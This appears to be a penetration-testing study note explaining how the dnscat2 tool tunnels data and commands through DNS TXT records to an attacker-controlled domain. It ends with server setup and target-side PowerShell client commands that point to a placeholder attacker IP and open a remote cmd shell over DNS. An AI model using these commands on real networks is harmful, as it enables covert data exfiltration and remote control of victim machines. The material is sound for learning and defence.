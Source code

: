 

- Dnscat2 is a tunnelling tool that uses DNS protocol to send data between two hosts. 
- It uses an encrypted C2 channel and sends data inside TXT records within the DNS protocol. 
- Most Domain environments will have their own DNS server that resolves Domain to IP and route the traffic to external DNS servers.
- However, with dnscat2, the address resolution is requested from an external Server. When Local DNS tries to resolve an address, data is exfiltrated and sent over the network instead of a legitimate DNS request. 




#### BreakDown of how Dnscat2 works with an example

1. Suppose you're inside a corporate network. Most corporate networks have their own DNS server. If local DNS resolution fails, the request will be forwarded to external DNS servers. 
2. Dnscat2 abuses this functionality to extract data via the TXT reccord.
3. The attacker sets up a domain (malicious.xyz) , then sets up a dnscat2 server and configures the NS record of the domain to point to it (dnscat2 server). The attacker’s DNS server can now receive **raw DNS queries** for  ` *.malicious.xyz.`
4. The attacker runs dnscat2-client, which crafts fake DNS requests that **look like queries**, but actually carry **data or command results**.
5. Since, the local DNS server doesn't know how to resolve the requested hostname, it forwards the request to the external DNS server, which is owned by the attacker.
6. The attacker receives the DNS request, and extracts the data out of the TXT field. 




#### Syntax

1. Setting up the Server

```python
sudo ruby dnscat2.rb --dns host=<AttackerIP>,port=53,domain="attacker.local" --no-cache
```



2. Connecting to the server from the target machine

```powershell
Import-Module .\dnscat2.ps1
Start-Dnscat2 -DNSServer <AttackersIP> -Domain attacker.local -PreSharedSecret <SecretReceivedFromTheServer> -Exec cmd
```


